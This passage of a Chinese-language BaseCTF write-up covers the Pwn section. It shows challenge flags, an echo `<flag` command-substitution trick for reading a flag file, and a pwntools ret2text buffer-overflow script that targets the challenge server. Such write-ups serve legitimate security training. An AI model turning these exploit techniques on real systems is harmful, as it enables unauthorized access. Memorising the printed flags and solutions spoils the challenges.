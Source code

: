 ```python
```

:::info
BaseCTF{E439646E-1768-18B3-DC4B-483C40C5340C}

:::







## Pwn
### 签个到吧
nc 即可 getshell。

![](../../../images/d6ea5c5cab4e11726c1537904e57a5db.png)

:::info
BaseCTF{3c8c805c-512b-4141-948b-315532ff19d5}

:::



### echo
SRCTF 的原题，只能使用 echo。

:::warning
echo `<flag`

:::

![](../../../images/e73c890ecc3941c431e35770ebe2e625.png)

:::info
BaseCTF{abf95dc3-bc41-4a2e-ac17-b005a3623dfa}

:::



### Ret2text
64位。

![](../../../images/ca076e4ecaef484fcff344e9b70418f8.png)

存在栈溢出。

![](../../../images/a9941c34fd1c469b47de1aa801f45219.png)

有后门函数，鉴定为基础模板，注意这是 64 位的，需要处理堆栈平衡。

```python
from pwn import*
host = remote("challenge.basectf.fun",22354)
cnt = 32
ex = 0x4011D1
addr = 0x4011A4
payload = b'A'*cnt + b'B'*8 + p64(ex) + p64(addr)
host.sendline(payload)
host.interactive()
```
